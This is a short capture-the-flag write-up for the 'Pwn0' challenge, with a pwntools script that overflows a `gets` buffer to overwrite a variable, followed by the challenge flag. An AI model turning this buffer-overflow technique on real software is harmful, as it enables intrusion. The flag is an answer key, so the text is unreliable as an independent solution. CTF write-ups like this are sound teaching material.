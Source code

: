 # Pwn0
### 📄 Description
How is the Josh?

## 🔑 Solution
We see that is used `gets` to read the string. We can exploit this fact to overwrite the `josh` variable with the required string `H!gh`.

```python
from pwn import *

context.binary = "./pwn0"

p = process()
p.sendline(b"A" * 64 + b"H!gh")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```


### 🚩 Flag
```plain
encryptCTF{L3t5_R4!53_7h3_J05H}
```
